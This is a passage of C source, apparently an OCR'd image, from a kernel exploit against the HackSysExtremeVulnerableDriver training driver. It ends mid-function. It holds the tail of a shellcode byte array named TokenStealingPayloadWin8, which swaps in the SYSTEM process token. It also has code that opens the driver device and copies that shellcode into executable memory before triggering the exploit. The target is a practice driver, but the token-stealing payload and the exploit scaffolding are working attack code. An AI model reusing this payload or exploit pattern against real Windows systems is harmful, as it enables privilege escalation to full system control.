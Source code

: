```c
	0x48, 0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, 0x48, 0x89, 0xC3, 0x48, 0x8B,
	0x80, 0xE8, 0x02, 0x00, 0x00, 0x48, 0x2D, 0xE8, 0x02, 0x00, 0x00, 0x48,
	0x8B, 0x88, 0xE0, 0x02, 0x00, 0x00, 0x48, 0x83, 0xF9, 0x04, 0x75, 0xE6,
	0x48, 0x8B, 0x88, 0x48, 0x03, 0x00, 0x00, 0x80, 0xE1, 0xF0, 0x48, 0x89,
	0x8B, 0x48, 0x03, 0x00, 0x00, 0x59, 0x5B, 0x58, 0xC3
};


INT TriggerExploit(HANDLE hDevice);

INT main() 
{
    HANDLE hDevice;
    PCWSTR lpDeviceName = L"\\\\.\\HackSysExtremeVulnerableDriver";

    hDevice = CreateFileW(
        lpDeviceName,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );
    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open handle to driver: %lu\n", GetLastError());
        return -1;
    } 

    printf("[+] Device opened successfully!\n");

    if (TriggerExploit(hDevice) >= 0) {
        printf("[+] Exploit completed successfully!\n");
    } else {
        printf("[-] Exploit failed: %lu\n", GetLastError());
    }

    printf("[+] Cleaning up and closing handle...\n");
    CloseHandle(hDevice);

    return 0;
}

INT TriggerExploit(HANDLE hDevice) 
{
    UINT64 *lpInBuffer;
    LPVOID  lpShellcode;
    SIZE_T  inBufferSize;
    DWORD   bytesReturned;
    SIZE_T  shellcodeSize = sizeof(TokenStealingPayloadWin8);


    // Allocate space for the shellcode
    printf("[+] Allocating executable memory for shellcode\n");

    if (!(lpShellcode = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE))) {
        printf("[-] Failed to allocate memory for shellcode: %lu\n", GetLastError());
        return -1;
    }

    // Copy shellcode into executable user space memory
    RtlCopyMemory(lpShellcode, TokenStealingPayloadWin8, shellcodeSize);
```